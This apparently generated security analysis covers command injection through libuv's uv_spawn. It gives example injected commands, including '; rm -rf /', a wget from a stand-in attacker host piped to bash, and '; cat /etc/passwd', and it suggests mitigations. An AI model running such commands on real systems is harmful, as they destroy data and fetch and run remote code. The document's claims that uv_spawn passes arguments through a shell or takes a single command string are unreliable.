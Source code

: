 ## Deep Dive Analysis: Command Injection Vulnerabilities in Applications Using libuv

This analysis provides a deeper understanding of the command injection attack surface within applications leveraging the `libuv` library, specifically focusing on the `uv_spawn` function. We will expand on the provided information, explore potential attack vectors, and offer more granular mitigation strategies for the development team.

**Expanding on the Core Vulnerability:**

The core issue lies in the direct execution of system commands based on potentially untrusted input when using `uv_spawn`. While `libuv` itself doesn't introduce the vulnerability, it provides the mechanism (`uv_spawn`) that, if misused, can become a conduit for command injection.

**Why `uv_spawn` is a Key Attack Surface:**

* **Direct System Interaction:** `uv_spawn` is designed to directly interact with the underlying operating system's process creation mechanisms. This power, while necessary for certain tasks, comes with inherent risks when dealing with external data.
* **Argument Passing:** The arguments passed to `uv_spawn` directly influence the command executed by the system. If these arguments contain malicious commands or shell metacharacters, the operating system will interpret and execute them.
* **Lack of Built-in Sanitization:** `libuv` does not provide any built-in sanitization or escaping mechanisms for the arguments passed to `uv_spawn`. The responsibility for securing these arguments rests entirely with the application developer.

**Detailed Examination of the Example:**

The example provided, using `; rm -rf /`, is a classic and devastating illustration. Let's break down why it's effective:

* **`;` (Command Separator):** This character allows the execution of multiple commands sequentially. The system first attempts to execute the intended command (which might be benign), and then proceeds to execute `rm -rf /`.
* **`rm -rf /` (Recursive Force Delete):** This command, when executed with sufficient privileges, will recursively delete all files and directories starting from the root directory, effectively rendering the system unusable.

**Beyond the Basic Example: Exploring Attack Vectors and Scenarios:**

Attackers can employ various techniques to inject malicious commands:

* **Command Chaining:** Using operators like `&&` (execute the second command only if the first succeeds) or `||` (execute the second command only if the first fails) to conditionally execute malicious commands.
    * **Example:**  `ping -c 1 user_provided_host && wget http://attacker.com/malware.sh | bash`
* **Piping:** Using the `|` operator to redirect the output of one command as input to another.
    * **Example:** `ls -l user_provided_directory | grep "sensitive_data" > /tmp/exfiltrated_data`
* **Input Redirection:** Using `>` or `>>` to redirect the output of a command to a file.
    * **Example:** `echo "malicious_code" > user_provided_file.php`
* **Backticks or `$()` (Command Substitution):**  These allow the output of a command to be used as part of another command's arguments.
    * **Example:** `find / -name "$(whoami)"`
* **Exploiting Vulnerabilities in Executed Programs:** Even if the initial command seems benign, if it calls other programs or scripts that are themselves vulnerable to command injection, the attack can propagate.

**Real-World Scenarios:**

Consider these scenarios where command injection via `uv_spawn` could occur:

* **Web Applications:**
    * A web application allows users to provide a hostname for pinging. Without sanitization, an attacker could input `; cat /etc/passwd` to view the system's user list.
    * A file conversion service uses `uv_spawn` to execute command-line tools like `ffmpeg`. Malicious input in the filename could lead to command execution.
* **Desktop Applications:**
    * An application that allows users to specify custom scripts or commands to be executed.
    * An application that uses `uv_spawn` to interact with system utilities based on user configuration.
* **IoT Devices:**
    * Firmware that uses `uv_spawn` to manage system processes based on network commands.
    * Applications running on embedded systems that interact with external devices using command-line tools.

**Deep Dive into Mitigation Strategies:**

Let's expand on the provided mitigation strategies with more specific guidance:

* **Avoid `uv_spawn` with User Input (The Preferred Approach):**
    * **Identify Alternatives:**  Thoroughly analyze the functionality requiring `uv_spawn`. Are there libraries or built-in functions that can achieve the same result without resorting to shell execution? For example, for file manipulation, use file system APIs instead of `rm` or `cp`. For network operations, use dedicated networking libraries.
    * **Restrict Functionality:** If the functionality is not strictly necessary, consider removing or limiting it.
    * **Predefined Actions:** Instead of allowing arbitrary commands, offer a limited set of predefined actions that the application can perform.

* **Input Sanitization (Difficult and Error-Prone):**
    * **Whitelisting (Stronger):** Define a strict set of allowed characters or patterns for each input parameter. Reject any input that doesn't conform to the whitelist. This is generally more secure than blacklisting.
    * **Blacklisting (Weaker and Prone to Bypasses):**  Attempt to identify and remove or escape dangerous characters. This is difficult to do comprehensively, as attackers constantly find new ways to bypass blacklists. **Avoid relying solely on blacklisting.**
    * **Escaping Shell Metacharacters:**  Use appropriate escaping techniques provided by the operating system or programming language to neutralize the special meaning of shell metacharacters (e.g., `, ;, |, &, $, `, >, <, \, !, (, )). However, ensure you are escaping for the *specific shell* being used.
    * **Contextual Sanitization:**  Sanitize input based on how it will be used. For example, if the input is meant to be a filename, sanitize it differently than if it's meant to be a numerical value.

* **Use Safe Alternatives (Highly Recommended):**
    * **Language-Specific Libraries:** Leverage built-in libraries or well-vetted third-party libraries that provide the necessary functionality without invoking the shell.
    * **Direct System Calls (Advanced and Requires Careful Handling):** In some cases, directly using system calls might be an option, but this requires a deep understanding of the operating system's API and can be complex to implement securely.

* **Principle of Least Privilege (Defense in Depth):**
    * **Run the Application with a Dedicated User:**  Create a specific user account with minimal necessary permissions to run the application. This limits the damage an attacker can cause even if command injection is successful.
    * **Restrict File System Access:** Limit the application's access to only the necessary files and directories.
    * **Disable Unnecessary System Features:** If the application doesn't require certain system features, disable them to reduce the attack surface.

**Specific Considerations for `libuv` and `uv_spawn`:**

* **Argument Array vs. Single String:** `uv_spawn` allows passing arguments as either a single string or an array of strings. Using the argument array is generally safer as it avoids shell interpretation of metacharacters within individual arguments. However, even with the array, ensure each argument is properly sanitized if it originates from user input.
* **`uv_process_options_t` Structure:**  Familiarize yourself with the options available in the `uv_process_options_t` structure, such as `flags` and `stdio_count`. Properly configuring these options can enhance security.

**Developer Best Practices:**

* **Treat All External Input as Untrusted:**  Adopt a security-first mindset and never assume that input from users, network sources, or configuration files is safe.
* **Code Reviews:**  Conduct thorough code reviews, specifically focusing on areas where `uv_spawn` is used and how user input is handled.
* **Security Auditing and Penetration Testing:**  Regularly perform security audits and penetration testing to identify potential vulnerabilities, including command injection flaws.
* **Stay Updated:** Keep your `libuv` library and other dependencies up-to-date with the latest security patches.
* **Educate Developers:** Ensure the development team is well-versed in common web application security vulnerabilities, including command injection, and best practices for secure coding.

**Conclusion:**

Command injection is a critical vulnerability that can have devastating consequences. When using `libuv` and the `uv_spawn` function, developers must be acutely aware of the risks associated with executing system commands based on user input. Prioritizing the avoidance of `uv_spawn` with user input, implementing robust input sanitization when necessary, and adhering to the principle of least privilege are crucial steps in mitigating this attack surface. A proactive security approach, including thorough code reviews and regular security assessments, is essential to protect applications from command injection attacks.

